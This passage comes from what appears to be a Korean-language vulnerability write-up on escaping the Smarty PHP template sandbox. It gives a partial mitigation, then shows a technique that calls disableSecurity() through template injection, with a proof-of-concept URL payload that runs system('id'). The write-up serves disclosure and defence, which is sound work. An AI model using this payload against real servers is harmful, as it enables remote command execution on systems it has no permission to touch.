 요청을 두 번 보내는 이유는 첫 번째 요청 시 컴파일된 템플릿 파일이 읽어진 후 덮어써지고, 두 번째 요청 시에 덮어써진 내용이 표시되기 때문입니다.

### Mitigation

`Smarty_Internal_Runtime_WriteFile` 클래스에 접근하는 것을 방지하기 위해 보안 정책에서 `static_classes` 속성을 `null` 로 설정할 수 있습니다. 

```php
...
$my_security_policy = new Smarty_Security($smarty);
$my_security_policy->static_classes = null;
$smarty->enableSecurity($my_security_policy);
...
```

다만 이러한 방식은 본 취약점 방지 뿐만 아니라 정적 메소드를 호출하는 다른 기능에도 영향을 주기 때문에 바람직한 방식은 아닙니다. 가령 [Yii](https://www.yiiframework.com/extension/yiisoft/yii2-smarty/doc/guide/2.0/en/template-syntax) 프레임워크 사용 시 호출하는 `Html::mailto` , `JqueryAsset::register`  등이 정삭적으로 작동하지 않게 됩니다.

## Exploitation - The Sandbox Disabling Technique

기본 보안 정책이 아닌 강화된 보안 정책을 가진 대상을 상정해봅시다. 그래도 여전히 본 취약점을 사용한 공격은 유효합니다. 보안 정책과 상관없이 `Smarty` 인스턴스에 접근할 수 있고, 이를 통해 샌드박스 자체를 비활성화한 후 삽입한 PHP 코드를 직접적으로 렌더링할 수 있습니다.

`[$smarty.template_object->smarty->disableSecurity()](https://github.com/smarty-php/smarty/blob/v3.1.38/libs/Smarty.class.php#L746)` 를 사용합니다.

```php
/**
 * Disable security
 *
 * @return Smarty current Smarty instance for chaining
 */
public function disableSecurity()
{
    $this->security_policy = null;
    return $this;
}
```

### Proof of Concept

위에서 설명한 **Hardened Sandbox**로 웹 페이지를 띄운 후 아래 주소로 접속합니다.

```
http://localhost:8000/page.php?poc=string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(\'id\')}')}
```

![/assets/2021-07-01/smarty_4.png](/assets/2021-07-01/smarty_4.png)
